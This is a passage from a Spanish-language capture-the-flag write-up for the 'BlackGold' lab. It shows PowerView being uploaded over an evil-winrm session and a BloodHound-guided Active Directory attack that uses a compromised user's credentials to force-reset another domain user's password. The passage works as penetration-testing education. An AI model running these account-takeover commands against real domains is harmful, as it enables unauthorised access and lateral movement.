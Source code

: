 Una vez que lo tengas, cárgalo a la sesión de **evil-winrm**:
```batch
*Evil-WinRM* PS C:\Users\Emma Johnson\Desktop> upload powerview.ps1
Info: Uploading /../TheHackersLabs/BlackGold/content/powerview.ps1 to C:\Users\Emma Johnson\Desktop\PowerView.ps1
Data: 1217440 bytes of 1217440 bytes copied
Info: Upload successful!
.
*Evil-WinRM* PS C:\Users\Emma Johnson\Desktop> Import-Module .\PowerView.ps1
```

Ahora, debemos seguir los pasos que nos indica **BloodHound**:

<p align="center">
<img src="/assets/images/THL-writeup-blackGold/Captura10.png">
</p>

Apliquémoslos:
```batch
*Evil-WinRM* PS C:\Users\Emma Johnson\Desktop> $SecPassword = ConvertTo-SecureString 'contraseña_emma.johnson' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\Emma Johnson\Desktop> $Cred = New-Object System.Management.Automation.PSCredential('neptune.thl\emma.johnson', $SecPassword)
*Evil-WinRM* PS C:\Users\Emma Johnson\Desktop> $UserPassword = ConvertTo-SecureString 'Hackeado123!' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\Emma Johnson\Desktop> Set-DomainUserPassword -Identity thomas.brown -AccountPassword $UserPassword -Credential $Cred
```
